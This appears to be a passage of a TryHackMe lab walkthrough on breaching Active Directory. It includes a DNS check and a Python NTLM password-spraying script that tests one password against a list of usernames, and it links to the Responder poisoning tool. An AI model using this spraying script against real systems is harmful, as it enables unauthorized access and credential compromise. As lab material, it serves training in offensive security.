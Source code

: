 Test Your DNS :

```bash
$ nslookup thmdc.za.tryhackme.com                 
Server:         10.200.25.101
Address:        10.200.25.101#53

Name:   thmdc.za.tryhackme.com
Address: 10.200.25.101

```

## Task 2.OSINT and Phishing

<details><summary>What popular website can be used to verify if your email address or password has ever been exposed in a publicly disclosed data breach?</summary></details>

## 

## Task 3.NTLM Authenticated Services



```python
#!/usr/bin/python3

import requests
from requests_ntlm import HttpNtlmAuth
import sys, getopt

class NTLMSprayer:
    def __init__(self, fqdn):
        self.HTTP_AUTH_FAILED_CODE = 401
        self.HTTP_AUTH_SUCCEED_CODE = 200
        self.verbose = True
        self.fqdn = fqdn

    def load_users(self, userfile):
        self.users = []
        lines = open(userfile, 'r').readlines()
        for line in lines:
            self.users.append(line.replace("\r", "").replace("\n", ""))

    def password_spray(self, password, url):
        print ("[*] Starting passwords spray attack using the following password: " + password)
        count = 0
        for user in self.users:
            response = requests.get(url, auth=HttpNtlmAuth(self.fqdn + "\\" + user, password))
            if (response.status_code == self.HTTP_AUTH_SUCCEED_CODE):
                print ("[+] Valid credential pair found! Username: " + user + " Password: " + password)
                count += 1
                continue
            if (self.verbose):
                if (response.status_code == self.HTTP_AUTH_FAILED_CODE):
                    print ("[-] Failed login with Username: " + user)
        print ("[*] Password spray attack completed, " + str(count) + " valid credential pairs found")

def main(argv):
    userfile = ''
    fqdn = ''
    password = ''
    attackurl = ''

    try:
```

[1]: https://github.com/lgandx/Responder	"IPv6/IPv4 LLMNR/NBT-NS/mDNS Poisoner and NTLMv1/2 Relay."